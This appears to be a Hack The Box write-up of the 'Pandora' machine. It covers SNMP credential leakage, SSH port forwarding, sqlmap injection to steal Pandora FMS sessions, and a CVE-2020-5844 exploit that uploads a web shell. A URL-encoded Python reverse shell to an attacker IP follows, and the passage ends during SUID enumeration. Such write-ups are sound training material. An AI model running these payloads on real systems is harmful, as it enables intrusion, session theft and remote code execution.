


# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.75.187

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-24 15:10 BST
Warning: 10.129.75.187 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.75.187
Host is up (0.17s latency).
Not shown: 65505 closed tcp ports (conn-refused), 28 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 744.13 seconds
"
```

```bash
nmap -p 22,80 -sC -sV 10.129.75.187

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-24 15:24 BST
Nmap scan report for 10.129.75.187
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
"
```

```bash
sudo nmap -p- -sU --min-rate 6000 10.129.75.187

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-25 07:16 BST
Warning: 10.129.75.187 giving up on port because retransmission cap hit (10).
Nmap scan report for panda.htb (10.129.75.187)
Host is up (0.25s latency).
Not shown: 65283 open|filtered udp ports (no-response), 251 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 246.66 seconds
"
```

## **View Website**


## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.75.187/ -w /usr/share/wordlists/dirb/common.txt -z

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.75.187/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/24 15:24:59 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.75.187/assets/]
/index.html           (Status: 200) [Size: 33560]                                 
/server-status        (Status: 403) [Size: 278]                                   
                                                                                  
===============================================================
2023/10/24 15:26:20 Finished
===============================================================
"
```

## Update Hostname

```bash
sudo vi /etc/hosts

"
10.129.75.187 panda.htb
"
```

# Exploitation

## SNMP Emumeration

### Outputting available sub-tree MIBs

```bash
snmpwalk -v 1 -c public 10.129.75.187

`
iso.3.6.1.2.1.25.4.2.1.5.698 = ""
iso.3.6.1.2.1.25.4.2.1.5.720 = STRING: "-1 -4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.729 = ""
iso.3.6.1.2.1.25.4.2.1.5.730 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.735 = STRING: "--foreground"
iso.3.6.1.2.1.25.4.2.1.5.736 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
iso.3.6.1.2.1.25.4.2.1.5.737 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.738 = ""
iso.3.6.1.2.1.25.4.2.1.5.742 = ""
iso.3.6.1.2.1.25.4.2.1.5.828 = STRING: "--no-debug"
iso.3.6.1.2.1.25.4.2.1.5.915 = ""
iso.3.6.1.2.1.25.4.2.1.5.962 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.971 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.973 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.974 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.976 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.977 = ""
iso.3.6.1.2.1.25.4.2.1.5.989 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.1016 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.1042 = ""
iso.3.6.1.2.1.25.4.2.1.5.1115 = STRING: "-u daniel -p HotelBabylon23"
iso.3.6.1.2.1.25.4.2.1.5.3249 = ""
iso.3.6.1.2.1.25.4.2.1.5.3693 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.3694 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4828 = ""
iso.3.6.1.2.1.25.4.2.1.5.4830 = ""
iso.3.6.1.2.1.25.4.2.1.5.4855 = ""
iso.3.6.1.2.1.25.4.2.1.5.4861 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4868 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.4870 = STRING: "-k start"
`
```

Above is the summarized output of the snmpwalk. 

`-v 1` stands for the snmp version its going to use.

`-c public` is the community string it is using.`public` is the default community string (password)

We found the credential: `"-u daniel -p HotelBabylon23"`

```
username: daniel
password: HotelBabylon23
```

## Exploit - Login to SSH

```bash
ssh daniel@10.129.75.187

"
The authenticity of host '10.129.75.187 (10.129.75.187)' can't be established.
ECDSA key fingerprint is SHA256:9urFJN3aRYRRc9S5Zc+py/w4W6hmZ+WLg6CyrY+5MDI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.75.187' (ECDSA) to the list of known hosts.
daniel@10.129.75.187's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 25 Oct 06:47:28 UTC 2023

  System load:           0.09
  Usage of /:            63.4% of 4.87GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             250
  Users logged in:       0
  IPv4 address for eth0: 10.129.75.187
  IPv6 address for eth0: dead:beef::250:56ff:fe96:25a5

  => /boot is using 91.8% of 219MB

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

daniel@pandora:~$ whoami
daniel
daniel@pandora:~$
"
```

# Privilege Escalation

## Daniel to Matt

### Apache Site Configuration

```bash
cat pandora.conf

"
/etc/apache2/sites-enabled$ cat pandora.conf
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
"
```

Here pandora console website is hosted in localhost port 80. To get into the website, we need to port forward port 80.

### Port Forwarding using SSH

```bash
ssh daniel@10.129.75.34 -L 9000:localhost:80

"
daniel@10.129.75.34's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 26 Oct 10:31:11 UTC 2023

  System load:           0.0
  Usage of /:            63.0% of 4.87GB
  Memory usage:          7%
  Swap usage:            0%
  Processes:             220
  Users logged in:       1
  IPv4 address for eth0: 10.129.75.34
  IPv6 address for eth0: dead:beef::250:56ff:fe96:10c6

  => /boot is using 91.8% of 219MB

0 updates can be applied immediately.

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Oct 26 10:28:35 2023 from 10.10.14.64
daniel@pandora:~$
"
```

`-L <port in our side>:<target hosted host>:<target hosted port>`

### Viewing Pandora FMS


The website is using version `7.0NG.742`

### Searching for Pandora FMS Exploit

[Pandora FMS 742: Critical Code Vulnerabilities Explained](https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/)

```php
# Directly copied from 'https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/'
# /include/lib/mysql.php
function db_get_row_filter($table, $filter, $fields=false)
{  

	$filter = db_format_array_where_clause_sql($filter, ' WHERE ');
	
	$sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);
	...
```

Using SQLMAP for SQL Injection

```bash
sqlmap -u 'http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=' --dbms mysql

`
---
Parameter: session_id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: session_id=-7623' OR 1698=1698#

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: session_id=' OR (SELECT 1505 FROM(SELECT COUNT(*),CONCAT(0x716b7a7171,(SELECT (ELT(1505=1505,1))),0x71767a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- fair

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session_id=' AND (SELECT 7639 FROM (SELECT(SLEEP(5)))TAqr)-- cRyf
---
[15:48:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.04 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[15:48:03] [INFO] fetched data logged to text files under '/home/htb-daeisbae/.local/share/sqlmap/output/127.0.0.1'
[15:48:03] [WARNING] your sqlmap version is outdated

[*] ending @ 15:48:03 /2023-10-26/
`
```

SQL Injection is possible using time-based blind, error-based and boolean-based blind.

Let’s enumerate the database

```bash
sqlmap -u 'http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=' --dbms mysql --dbs

`
[15:50:55] [INFO] testing MySQL
[15:50:55] [INFO] confirming MySQL
[15:50:56] [WARNING] reflective value(s) found and filtering out
[15:50:56] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41, PHP
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[15:50:56] [INFO] fetching database names
[15:50:56] [INFO] resumed: 'information_schema'
[15:50:56] [INFO] resumed: 'pandora'
available databases [2]:
[*] information_schema
[*] pandora

[15:50:56] [INFO] fetched data logged to text files under '/home/htb-daeisbae/.local/share/sqlmap/output/127.0.0.1'
[15:50:56] [WARNING] your sqlmap version is outdated

[*] ending @ 15:50:56 /2023-10-26/
`
```

Here first is `pandora` and second is `information_schema`. Let’s check pandora database first

Enumerating Pandora Database Tables

```bash
sqlmap -u 'http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=' --dbms mysql -D pandora --tables

"
Database: pandora
[178 tables]
+------------------------------------+
| taddress                           |
| taddress_agent                     |
| tagent_access                      |
| tagent_custom_data                 |
| tagent_custom_fields               |
| tagent_custom_fields_filter        |
| tagent_module_inventory            |
| tagent_module_log                  |
| tagent_repository                  |
| tagent_secondary_group             |
| tagente                            |
| tagente_datos                      |
| tagente_datos_inc                  |
| tagente_datos_inventory            |
| tagente_datos_log4x                |
| tagente_datos_string               |
| tagente_estado                     |
| tagente_modulo                     |
| talert_actions                     |
| talert_commands                    |
| talert_snmp                        |
| talert_snmp_action                 |
| talert_special_days                |
| talert_template_module_actions     |
| talert_template_modules            |
| talert_templates                   |
| tattachment                        |
| tautoconfig                        |
| tautoconfig_actions                |
| tautoconfig_rules                  |
| tcategory                          |
| tcluster                           |
| tcluster_agent                     |
| tcluster_item                      |
| tcollection                        |
| tconfig                            |
| tconfig_os                         |
| tcontainer                         |
| tcontainer_item                    |
| tcredential_store                  |
| tdashboard                         |
| tdatabase                          |
| tdeployment_hosts                  |
| tevent_alert                       |
| tevent_alert_action                |
| tevent_custom_field                |
| tevent_extended                    |
| tevent_filter                      |
| tevent_response                    |
| tevent_rule                        |
| tevento                            |
| textension_translate_string        |
| tfiles_repo                        |
| tfiles_repo_group                  |
| tgis_data_history                  |
| tgis_data_status                   |
| tgis_map                           |
| tgis_map_connection                |
| tgis_map_has_tgis_map_con          |
| tgis_map_layer                     |
| tgis_map_layer_groups              |
| tgis_map_layer_has_tagente         |
| tgraph                             |
| tgraph_source                      |
| tgraph_source_template             |
| tgraph_template                    |
| tgroup_stat                        |
| tgrupo                             |
| tincidencia                        |
| titem                              |
| tlanguage                          |
| tlayout                            |
| tlayout_data                       |
| tlayout_template                   |
| tlayout_template_data              |
| tlink                              |
| tlocal_component                   |
| tlog_graph_models                  |
| tmap                               |
| tmensajes                          |
| tmetaconsole_agent                 |
| tmetaconsole_agent_secondary_group |
| tmetaconsole_event                 |
| tmetaconsole_event_history         |
| tmetaconsole_setup                 |
| tmigration_module_queue            |
| tmigration_queue                   |
| tmodule                            |
| tmodule_group                      |
| tmodule_inventory                  |
| tmodule_relationship               |
| tmodule_synth                      |
| tnetflow_filter                    |
| tnetflow_report                    |
| tnetflow_report_content            |
| tnetwork_component                 |
| tnetwork_component_group           |
| tnetwork_map                       |
| tnetwork_matrix                    |
| tnetwork_profile                   |
| tnetwork_profile_component         |
| tnetworkmap_ent_rel_nodes          |
| tnetworkmap_enterprise             |
| tnetworkmap_enterprise_nodes       |
| tnews                              |
| tnota                              |
| tnotification_group                |
| tnotification_source               |
| tnotification_source_group         |
| tnotification_source_group_user    |
| tnotification_source_user          |
| tnotification_user                 |
| torigen                            |
| tpassword_history                  |
| tperfil                            |
| tphase                             |
| tplanned_downtime                  |
| tplanned_downtime_agents           |
| tplanned_downtime_modules          |
| tplugin                            |
| tpolicies                          |
| tpolicy_agents                     |
| tpolicy_alerts                     |
| tpolicy_alerts_actions             |
| tpolicy_collections                |
| tpolicy_groups                     |
| tpolicy_modules                    |
| tpolicy_modules_inventory          |
| tpolicy_plugins                    |
| tpolicy_queue                      |
| tprofile_view                      |
| tprovisioning                      |
| tprovisioning_rules                |
| trecon_script                      |
| trecon_task                        |
| trel_item                          |
| tremote_command                    |
| tremote_command_target             |
| treport                            |
| treport_content                    |
| treport_content_item               |
| treport_content_item_temp          |
| treport_content_sla_com_temp       |
| treport_content_sla_combined       |
| treport_content_template           |
| treport_custom_sql                 |
| treport_template                   |
| treset_pass                        |
| treset_pass_history                |
| tserver                            |
| tserver_export                     |
| tserver_export_data                |
| tservice                           |
| tservice_element                   |
| tsesion                            |
| tsesion_extended                   |
| tsessions_php                      |
| tskin                              |
| tsnmp_filter                       |
| ttag                               |
| ttag_module                        |
| ttag_policy_module                 |
| ttipo_modulo                       |
| ttransaction                       |
| ttrap                              |
| ttrap_custom_values                |
| tupdate                            |
| tupdate_journal                    |
| tupdate_package                    |
| tupdate_settings                   |
| tuser_double_auth                  |
| tuser_task                         |
| tuser_task_scheduled               |
| tusuario                           |
| tusuario_perfil                    |
| tvisual_console_elements_cache     |
| twidget                            |
| twidget_dashboard                  |
+------------------------------------+
"
```

The table `tsessions_php` looks interesting. It looks like the database is storing the user session.

Stealing Session

```bash
sqlmap -u 'http://127.0.0.1:9000/pandora_console/include/chart_generator.php?session_id=' --dbms mysql -D pandora -T tsessions_php --dump

`
Database: pandora
Table: tsessions_php
[51 entries]
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| 08pnca292cirvupibmfs7p5c9p | NULL                                                | 1698475574  |
| 09ru8viadrndfkujc9sgu59fa8 | NULL                                                | 1698475643  |
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                | 1638789018  |
| 10q8jmuig1g2btrlsl9msdev80 | NULL                                                | 1698475518  |
| 1bf1ba9fd7oj23jsqr7l2ij636 | NULL                                                | 1698474841  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                | 1638792211  |
| 2c0uue9s8rir4h45t1j6te1rvp | NULL                                                | 1698475484  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                | 1638786129  |
| 2mv4133v9bnbv6errddqirfl73 | NULL                                                | 1698475241  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
| 7vioiulgekq8ib2e604494fbbu | NULL                                                | 1698475259  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                | 1623957150  |
| 8a0svq4miutu802i3h7mli3hba | id_usuario|s:6:"daniel";                            | 1698474730  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                            | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                | 1638795315  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                            | 1638881664  |
| bbhf4mtod74tqhv50mpdvu4lj5 | id_usuario|s:6:"daniel";                            | 1641201982  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                | 1638787213  |
| crd8riehfju91quelstjv6bvd5 | NULL                                                | 1698475749  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                | 1638786277  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                            | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                            | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                | 1638786349  |
| hbphinq56mklc24eq43qvlcd90 | NULL                                                | 1698475150  |
| heasjj8c48ikjlvsf1uhonfesv | NULL                                                | 1638540345  |
| hsftvg6j5m3vcmut6ln6ig8b0f | id_usuario|s:6:"daniel";                            | 1638168492  |
| jecd4v8f6mlcgn4634ndfl74rd | id_usuario|s:6:"daniel";                            | 1638456173  |
| kp90bu1mlclbaenaljem590ik3 | NULL                                                | 1638787808  |
| ne9rt4pkqqd0aqcrr4dacbmaq3 | NULL                                                | 1638796348  |
| o3kuq4m5t5mqv01iur63e1di58 | id_usuario|s:6:"daniel";                            | 1638540482  |
| oi2r6rjq9v99qt8q9heu3nulon | id_usuario|s:6:"daniel";                            | 1637667827  |
| pjp312be5p56vke9dnbqmnqeot | id_usuario|s:6:"daniel";                            | 1638168416  |
| qq8gqbdkn8fks0dv1l9qk6j3q8 | NULL                                                | 1638787723  |
| r097jr6k9s7k166vkvaj17na1u | NULL                                                | 1638787677  |
| rgku3s5dj4mbr85tiefv53tdoa | id_usuario|s:6:"daniel";                            | 1638889082  |
| u5ktk2bt6ghb7s51lka5qou4r4 | id_usuario|s:6:"daniel";                            | 1638547193  |
| u74bvn6gop4rl21ds325q80j0e | id_usuario|s:6:"daniel";                            | 1638793297  |
| udjljvv419qgn7qist6tj6vi2v | NULL                                                | 1698475497  |
+----------------------------+-----------------------------------------------------+-------------+
`
```

Let’s overwrite with matt’s session (`g0kteepqaj1oep6u7msp0u38kv`) to the cookie value.


Then refresh the website. You will be inside the management console.

### Inside the Pandora FMS Management Console



### Searching for vulnerabilities (CVE-2020-5844)

```bash
searchsploit pandora fms

"
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Pandora FMS - Ping Authenticated Remote Code  | linux/remote/48334.rb
Pandora Fms - Remote Code Execution (Metasplo | linux/remote/31518.rb
Pandora Fms - SQL Injection Remote Code Execu | php/remote/35380.rb
Pandora FMS 3.1 - Authentication Bypass       | php/webapps/15639.txt
Pandora FMS 3.1 - Authentication Bypass / Arb | php/remote/35731.rb
Pandora Fms 3.1 - Blind SQL Injection         | php/webapps/15642.txt
Pandora Fms 3.1 - Directory Traversal / Local | php/webapps/15643.txt
Pandora Fms 3.1 - OS Command Injection        | php/webapps/15640.txt
Pandora Fms 3.1 - SQL Injection               | php/webapps/15641.txt
Pandora Fms 3.2.1 - Cross-Site Request Forger | php/webapps/17524.html
Pandora FMS 3.x - 'index.php' Cross-Site Scri | php/webapps/36073.txt
Pandora FMS 4.0.1 - 'sec2' Local File Inclusi | php/webapps/36792.txt
Pandora Fms 4.0.1 - Local File Inclusion      | php/webapps/18494.txt
Pandora FMS 5.0/5.1 - Authentication Bypass   | php/webapps/37255.txt
Pandora Fms 5.0RC1 - Remote Command Injection | php/webapps/31436.txt
Pandora FMS 5.1 SP1 - SQL Injection           | php/webapps/36055.txt
Pandora FMS 7.0 NG 749 - 'CG Items' SQL Injec | php/webapps/49046.txt
Pandora FMS 7.0 NG 749 - Multiple Persistent  | php/webapps/49139.txt
Pandora FMS 7.0 NG 750 - 'Network Scan' SQL I | php/webapps/49312.txt
Pandora FMS 7.0NG - 'net_tools.php' Remote Co | php/webapps/48280.py
Pandora FMS Monitoring Application 2.1.x /3.x | php/webapps/10570.txt
Pandora FMS v7.0NG.742 - Remote Code Executio | php/webapps/50961.py
PANDORAFMS 7.0 - Authenticated Remote Code Ex | php/webapps/48064.py
PandoraFMS 7.0 NG 746 - Persistent Cross-Site | php/webapps/48707.txt
PandoraFMS NG747 7.0 - 'filename' Persistent  | php/webapps/48700.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
"
```

```bash
searchsploit -x 50961

"
  Exploit: Pandora FMS v7.0NG.742 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/50961
     Path: /usr/share/exploitdb/exploits/php/webapps/50961.py
    Codes: CVE-2020-5844
 Verified: False
File Type: Python script, ASCII text executable, with very long lines
"
```

Here I found a RCE vulnerability that requires authentication.

### Extracting PHPSESSIONID



Goto developer menu (`F12`), then go to storage, and find the cookies tab to extract the PHPSESSIONID.

### Generating a Webshell URL through the exploit

```bash
python 50961.py -t 127.0.0.1 9000 -p 32f3f4109pufat7b48t7nu0ec3

"
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution
OPTIONS: Web Shell Mode
PHPSESS: 32f3f4109pufat7b48t7nu0ec3
WEBFILE: unicord.php
WEBSITE: http://127.0.0.1:9000/pandora_console
EXPLOIT: Connected to website! Status Code: 200
EXPLOIT: Logged into Pandora FMS!
EXPLOIT: Web shell uploaded!
SUCCESS: Web shell available at: http://127.0.0.1:9000/pandora_console/images/unicord.php?cmd=whoami
"
```

Using the URL `http://127.0.0.1:9000/pandora_console/images/unicord.php?cmd=whoami` , we can change the command `whoami` to a reverse shell code to send the reverse shell to our attacker pc.

### Listen to Reverse Shell and Exploit

[Online - Reverse Shell Generator](https://www.revshells.com/)

```jsx
http://127.0.0.1:9000/pandora_console/images/unicord.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.64%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

Here is the link that tiggers the reverse shell through URL-Encoded python reverse shell

```bash
nc -lvnp 4444

`
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.75.34.
Ncat: Connection from 10.129.75.34:43790.
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/var/www/pandora/pandora_console/images$
`
```

## Matt to Root

### Enumerate SUIDs

```bash
find / -perm -04000 -type f -ls 2>/dev/null

"
<images$ find / -perm -04000 -type f -ls 2>/dev/null  
   264644    164 -rwsr-xr-x   1 root     root       166056 Jan 19  2021 /usr/bin/sudo
   265010     32 -rwsr-xr-x   1 root     root        31032 May 26  2021 /usr/bin/pkexec
   267386     84 -rwsr-xr-x   1 root     root        85064 Jul 14  2021 /usr/bin/chfn
   262764     44 -rwsr-xr-x   1 root     root        44784 Jul 14  2021 /usr/bin/newgrp
   267389     88 -rwsr-xr-x   1 root     root        88464 Jul 14  2021 /usr/bin/gpasswd
   264713     40 -rwsr-xr-x   1 root     root        39144 Jul 21  2020 /usr/bin/umount
   262929     20 -rwsr-x---   1 root     matt        16816 Dec  3  2021 /usr/bin/pandora_backup
   267390     68 -rwsr-xr-x   1 root     root        68208 Jul 14  2021 /usr/bin/passwd
   264371     56 -rwsr-xr-x   1 root     root        55528 Jul 21  2020 /usr/bin/mount
   264643     68 -rwsr-xr-x   1 root     root        67816 Jul 21  2020 /usr/bin/su
   264040     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   264219     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
   267387     52 -rwsr-xr-x   1 root     root        53040 Jul 14  2021 /usr/bin/chsh
   262815    464 -rwsr-xr-x   1 root     root       473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
   264920     52 -rwsr-xr--   1 root     messagebus    51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
